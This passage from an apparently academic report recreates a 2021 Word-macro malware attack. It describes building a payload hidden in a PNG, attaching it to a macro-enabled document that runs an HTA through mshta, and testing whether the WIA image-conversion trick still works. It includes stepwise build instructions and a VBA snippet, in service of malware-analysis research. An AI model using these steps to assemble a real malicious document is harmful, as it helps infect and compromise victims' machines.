In order to run the script, the \verb+zlib-flate+ utility must be installed on your system. It is the most minimal
compression utility that we were able to find, however if you prefer to use a different one just edit the script to use
it instead. To install the \verb+zlib-flate+ utility, one must install the \verb+qpdf+ package with, for example
\verb+apt install qpdf+ or \verb+pacman -S qpdf+\footnote{Further commands:
\url{https://command-not-found.com/zlib-flate} [Accessed 4.6.2022]}. 

The script goes through the following steps, which can be followed for manually recreating the malware as well.
\begin{enumerate}
    \item Compile payload creation utilities (see subsection \ref{sec:impl-utilities})
    \item Generate a JavaScript array from the provided executable (also see subsection \ref{sec:impl-utilities})
    \item Construct the malicious \acrshort{HTA} file with the gtheenerated array (see subsection \ref{sec:impl-loader})
    \item Compress the \acrshort{HTA} file and append it to the provided image (see subsection \ref{sec:impl-utilities})
\end{enumerate}

After these steps have been preformed, the next step is creating the malicious document, which has to be performed using
the Microsoft Windows operating system. 
\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/payload_creation_script.png}
  \label{payload_creation_script}
  \caption{Payload creation script, along with file sizes and \texttt{binwalk} results showing a successful execution}
\end{figure}

Create a new macro-enabled document in Microsoft Word, and attach the malicious \acrshort{PNG} image.
Afterwards, open the \emph{Macros} menu by going to \emph{View > Macros} and create a new macro. Inside the macro
editor, copy the macro source code from our GitHub repository, replacing all contents in the editor with the contents of
the macro file. The malicious document is ready for use.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/malicious_document.png}
  \label{malicious_document}
  \caption{The malicious document, ready to be used}
\end{figure}


% --------------------------------------------------
% Notes
% --------------------------------------------------
\clearpage
\begin{itemize}
  \item explain how you engineered your tool/technique
  \item focus on the interesting bits here, you do not have to explain all your code
  \item one goal of this section is to allow someone else to reproduce your work
  \item where to find the code, how to compile it, how to deploy it
  \item prerequisites for running the prototype or demo
\end{itemize}
How I recreated the malware
\begin{itemize}
  \item RAT creation?
  \item BMP payload creation
  \item Word script to execute payload
  \item Obfuscation
  \item Phishing document creation
\end{itemize}
\clearpage

    \chapter{Evaluation and Discussion}
The first recreation of the malicious document and payload led us to a conclusion that we alluded to previously -- the
mechanism used to drop the payload and execute it \emph{no longer works as described in the original article by Hossein
Jazi}. 

The primary test environment we used to evaluate the effectiveness was a system running the Windows 10 operating system.
We decided to use this operating system as the basis for our testing as it's freely available for use in virtual
machines from Microsoft websites and is one of the more widely used operating systems as of the time of writing and the
time of the attack. Windows 11 began rolling out to users around in late 2021, putting it a few months behind the
attack, which was observed in April 2021 \cite{jazi-article, win11-rollout}. 

Some factors that could challenge or dispute our conclusions are the fact that we didn't have access to the original
payload files, meaning we had to guess to some parts of the implementation. The first part we had to recreate was the
image conversion mechanism, which we obtained from a document analysis dump after some searching. The second part that
we couldn't accurately recreate due to a lack of information was the payload concealment within the image file, which
wasn't dissected in the original article. 

\section{Issues with Malware Execution}
It is important to note that we tried to stick as closely as possible to the original malware, changing only minor
things. We made some changes to make debugging easier, such as not using the original payload locations
(\verb+C:\Users\<user>\AppData\Local\Temp+ and \verb+C:\Users\Public\Libraries+) and instead using local folders in a
test directory.

When recreating the parts of the malware that were not covered, we tried to hold ourselves as closely as possible to
indicators described within the original article. For example, the \verb+Decode+ function used to decode strings in
the macro was not provided, but it was mentioned that the strings were Base 64 encoded, so we wrote our own Base 64
decoding algorithm.

\subsection{Issues in the Macro}
The issues with the recreation started in the very first part of the execution chain. Aside from the aforementioned
lacking functions which we had to write ourselves or find elsewhere, there were some issues stemming from the
construction of the document itself. For example, the original payload contained multiple images, with only one of them
being malicious, meaning we had to change the file name reference in the macro to point to the correct image in our
document.

The next issues arose in a subroutine called \verb+Show+ which was responsible for protecting the document. There were
three function calls that failed and caused the macro to crash, all relating to the reconstruction of the document,
addressing elements that were not present in our recreated document. Interestingly, the original document seems to have
been protected with a password, or else the \verb+Application.ActiveDocument.Unprotect+ function would fail, crashing
the macro.

\begin{lstlisting}[language=VBScript, caption={Failing function calls from the document protection subroutine}][H]
    Application.ActiveDocument.Unprotect Password:="taifehjRTYB\$%^45"
    Application.ActiveDocument.Shapes(1).Visible = False
    Bookmarks("main").Range.Font.Hidden = False
\end{lstlisting}

%TODO: Check this part to make sure!
A surprising issue that came up in the implementation was also a failure in string concatenation, where for some reason,
the concatenation of \verb+Value & " " & CreatedImageBMPFilePath+ evaluated simply to \verb+Value+ whereas the
concatenation of \verb+"mshta" & " " & CreatedImageBMPFilePath+ evaluated correctly. Thus, we had to change the
concatenation to not use the de-obfuscated value variable, defeating the purpose of hiding that data in the first place,
leading to a further inefficiency in the malware.

Finally, the largest problem in the macro execution stems from the \verb+WIA_ConvertImage+ function. This function was
expected to convert the malicious \acrshort{PNG} file into \acrshort{BMP}, extracting the malicious payload in the
process. However, this was not the case. The conversion process converted the image properly, however all the other
bytes of the file were left garbled, replaced mostly with \verb+00+ and \verb+ff+ bytes, corresponding to series of
all zeroes and all ones respectively. The \verb+binwalk+ signature also doesn't match the one showed in the article,
notably not displaying that the file contains \acrshort{HTML} (as the original payload did), because it has been 
destroyed in the conversion process.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/faulty_bmp_conversion.png}
  \label{malicious_document}
  \caption{The result of the image conversion -- with the garbled payload}
\end{figure}

We are not sure if this is due to some error in the payload creation process on our part, or if the faulty conversion
mechanism has been patched by Microsoft in the wake of the original malware attack. We have reached out to the author of
the original article for comment, but we haven't received a response yet.

In trying to find out if there was any error on our part, we tried various ways of appending the compressed payload to 
the \acrshort{PNG} as well as attaching an uncompressed payload to no avail.
We tried the following:
\begin{itemize}
    \item attaching the compressed payload as-is to the end of the \acrshort{PNG},
    \item removing the Zlib header from the compressed payload, then attaching it to the end of the \acrshort{PNG},
    \item appending the uncompressed payload to the end of the \acrshort{PNG},
    \item removing the Zlib header from the compressed payload and removing the \verb+IEND+ image trailer from the
        \acrshort{PNG} data, effectively appending our data to the \acrshort{PNG} data stream, then adding the
        \verb+IEND+ image trailer to the end of the appended data.
\end{itemize}

None of these approaches were able to successfully replicate the behaviour of the original malware. The implementation
source code we provide uses the final approach, as we deem it to be the most robust and likely to be used in the real
attack.

This fact alone makes this attack \emph{irreproducible} using the same methods as documented in the malware post-mortem.

\section{Running the Malware}
Though the image conversion mechanism didn't work as intended, if we instead placed a pre-converted image containing the
payload and let the malicious document execute using this pre-converted image as its payload, all the other parts worked
as expected. By removing the conversion and providing the \acrshort{HTA} payload to the document directly we were able
to make the malware work and reproduce its behaviour. 

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/macro_popup.png}
  \label{malware-msgbox}
  \caption{Malware execution - the pop-up warning the user the execution was about to start}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.6]{figures/document_protected.png}
  \label{malware-doc-protected}
  \caption{Malware execution - the document protects itself from user changes}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/malware_dropped.png}
  \label{malware-payload-running}
  \caption{Malware execution - the \acrshort{HTA} payload drops the executable, 
  and it is seen running in the task manager}
\end{figure}

\section{Discussion}
After attempting to recreate the malware attack as faithfully as possible we have come to the conclusion that it cannot
be reproduced with the available resources. This comes down to one of two options, which we have already mentioned
throughout our evaluation:
\begin{enumerate}
    \item the faulty conversion mechanism exploited in \verb+WIA_ConvertImage+ has been patched,
    \item a functioning image compression methodology was not divulged, and we were unable to replicate it.
\end{enumerate}

We lean more towards the first option, as the compression mechanism used is relatively simple, and we struggle to
think of a way it could be further abused by the attackers in ways we could not find. Though we have been unable to find
any patch notes for the Microsoft Office suite that would indicate that the \acrfull{WIA} image conversion
functionality has been patched with regard to this vulnerability, that is not necessarily telling.

Reporting software vulnerabilities, whether they have been patched is a tricky subject, since it doesn't only
give information to users and systems administrators to combat the threat, but also gives information to attackers who
can use this information to attack systems vulnerable to the disclosed threat \cite{vuln-disclosure}. While there are
pros and cons to this disclosure, when it comes to closed source software such as the Microsoft Office suite it is up to
the company to decide how it handles vulnerability disclosure. 

Though research on which approach is optimal does not have an all-encompassing answer, it has been shown that disclosing 
vulnerabilities, even if they are patched at the time of disclosure, increases attack frequency in the short term 
\cite{vuln-disclosure, vuln-disclosure-impact}. It is possible that Microsoft chose not to disclose the patching of 
the vulnerability for this reason.

We tested all the parts of the attack in isolation and found all of them to work, \emph{except} the image conversion,
which was at the core of this attack. The other parts of the malware are all common operations that were not used in 
an unexpected manner in the attack. For example, using \acrshort{mshta} to execute a file within a \acrshort{VBA} macro,
while strange and potentially dangerous, isn't inherently malicious and works exactly as intended, executing the file.

While the faulty image conversion would satisfy our definition of malware, causing the program (\acrshort{WIA} in this case) 
to do what the attacker wants, regardless of run-time correctness, other parts of the malicious document do not. Hence,
we theorise that only this part of the malware execution process needed patching, and we think this has been done, due
to our inability to reproduce the malware attack in its entirety specifically due to the \acrshort{WIA} image conversion
not exhibiting the unwanted conversion behaviour.

% TODO: Test on Win7
\clearpage


    \chapter{Conclusion and Future Work}

    
    \bibliographystyle{alpha}
	\bibliography{bibliography}
	
	\printglossary[type=\acronymtype]

    \cleardoublepage{}
	\pagebreak
	
\end{document}
